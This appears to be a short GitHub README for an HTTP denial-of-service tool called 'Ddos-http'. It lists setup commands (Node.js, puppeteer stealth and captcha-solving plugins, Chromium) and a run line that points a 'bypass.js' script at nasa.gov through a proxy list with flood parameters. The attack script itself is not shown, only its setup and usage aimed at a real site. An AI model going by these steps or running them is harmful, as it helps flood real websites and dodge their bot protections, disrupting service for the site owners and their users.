 # Ddos-http
New Version of HTTP Browser


curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -

sudo apt -y install nodejs

npm install puppeteer-extra puppeteer-extra-plugin-recaptcha puppeteer-extra-plugin-stealth

apt install chromium-browser -y

chmod 777 optls

node bypass.js https://nasa.gov proxy.txt 1200 20 GET 64


